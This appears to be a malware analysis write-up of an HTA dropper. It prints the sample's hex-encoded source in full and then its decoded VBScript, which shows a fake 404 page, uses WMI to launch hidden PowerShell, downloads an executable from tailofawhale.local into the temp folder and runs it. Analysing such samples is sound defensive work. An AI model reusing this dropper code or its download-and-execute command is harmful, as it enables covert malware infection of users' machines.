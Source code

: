 # Dropper.hta

## Identification:

**FileName:** Dropper.hta

**SHA256:** d31cb07b7dfd2c50995321a86f8b173c886452c5ec2f67dff1173c32077d83a2

**FileSize:** 4096 (bytes)

<br>

## Analysis:

The code of the hta sample file can be seen below:

    <html>
    <head>
    <title></title>
    <body>
    <script language="JavaScript" type="text/javascript">
    document.write(unescape('%3c%68%74%6d%6c%3e%0a%3c%68%65%61%64%3e%0a%3c%74%69%74%6c%65%3e%20%3e%5f%20%3c%2f%74%69%74%6c%65%3e%0a%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%34%30%34%20%4e%6f%74%20%46%6f%75%6e%64%3c%2f%68%31%3e%3c%2f%63%65%6e%74%65%72%3e%0a%3c%73%63%72%69%70%74%20%6c%61%6e%67%75%61%67%65%3d%22%56%42%53%63%72%69%70%74%22%3e%0a%53%75%62%20%77%69%6e%64%6f%77%5f%6f%6e%6c%6f%61%64%0a%09%63%6f%6e%73%74%20%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%20%3d%20%33%0a%09%43%6f%6e%73%74%20%48%49%44%44%45%4e%5f%57%49%4e%44%4f%57%20%3d%20%31%32%0a%09%53%65%74%20%4c%6f%63%61%74%6f%72%20%3d%20%43%72%65%61%74%65%4f%62%6a%65%63%74%28%22%57%62%65%6d%53%63%72%69%70%74%69%6e%67%2e%53%57%62%65%6d%4c%6f%63%61%74%6f%72%22%29%0a%09%53%65%74%20%53%65%72%76%69%63%65%20%3d%20%4c%6f%63%61%74%6f%72%2e%43%6f%6e%6e%65%63%74%53%65%72%76%65%72%28%29%0a%09%53%65%72%76%69%63%65%2e%53%65%63%75%72%69%74%79%5f%2e%49%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%4c%65%76%65%6c%3d%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%0a%09%53%65%74%20%6f%62%6a%53%74%61%72%74%75%70%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%53%74%61%72%74%75%70%22%29%0a%09%53%65%74%20%6f%62%6a%43%6f%6e%66%69%67%20%3d%20%6f%62%6a%53%74%61%72%74%75%70%2e%53%70%61%77%6e%49%6e%73%74%61%6e%63%65%5f%0a%09%53%65%74%20%50%72%6f%63%65%73%73%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%22%29%0a%09%45%72%72%6f%72%20%3d%20%50%72%6f%63%65%73%73%2e%43%72%65%61%74%65%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%70%6f%77%65%72%73%68%65%6c%6c%2e%65%78%65%20%2d%77%69%6e%64%6f%77%73%74%79%6c%65%20%68%69%64%64%65%6e%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%3a%2f%2f%74%61%69%6c%6f%66%61%77%68%61%6c%65%2e%6c%6f%63%61%6c%2f%54%65%6c%6c%41%6e%64%53%65%6e%74%46%6f%72%2e%65%78%65%27%2c%27%25%74%65%6d%70%25%5c%6a%4c%6f%61%64%65%72%2e%65%78%65%27%29%3b%53%74%61%72%74%2d%50%72%6f%63%65%73%73%20%27%25%74%65%6d%70%25%5c%6a%4c%6f%61%64%65%72%2e%65%78%65%27%22%2c%20%6e%75%6c%6c%2c%20%6f%62%6a%43%6f%6e%66%69%67%2c%20%69%6e%74%50%72%6f%63%65%73%73%49%44%29%0a%09%77%69%6e%64%6f%77%2e%63%6c%6f%73%65%28%29%0a%65%6e%64%20%73%75%62%0a%3c%2f%73%63%72%69%70%74%3e%0a%3c%2f%68%65%61%64%3e%0a%3c%2f%68%74%6d%6c%3e'));
    </script>
    </body>
    </html>

In the above code, some hex encoded characters can be seen inside the document.write() under unescape(). The unescape will compute new string by replacing hexadecimal escape sequence with characters they represent. Then with document.write(), it will write directly to open HTML document stream.

The above encoded hex characters were decoded to get the code below.


    <html>
    <head>
    <title> >_ </title>
    <center><h1>404 Not Found</h1></center>
    <script language="VBScript">
    Sub window_onload
    	const impersonation = 3
    	Const HIDDEN_WINDOW = 12
    	Set Locator = CreateObject("WbemScripting.SWbemLocator")
    	Set Service = Locator.ConnectServer()
    	Service.Security_.ImpersonationLevel=impersonation
    	Set objStartup = Service.Get("Win32_ProcessStartup")
    	Set objConfig = objStartup.SpawnInstance_
    	Set Process = Service.Get("Win32_Process")
    	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('http://tailofawhale.local/TellAndSentFor.exe','%temp%\jLoader.exe');Start-Process '%temp%\jLoader.exe'", null, objConfig, intProcessID)
    	window.close()
    end sub
    </script>
    </head>
    </html>

Here, in the above decoded code, there is VBScript. Although this sample might show '404 Not Found', it will carry out some malicious activity in the background. Here, the VBScript will spawn a PowerShell instance by hiding its window and download 'TellAndSentFor.exe' from tailofawhale[.]local and save it as 'jLoader.exe' under 'Temp' directory. After that, it will execute the 'jLoader.exe'.
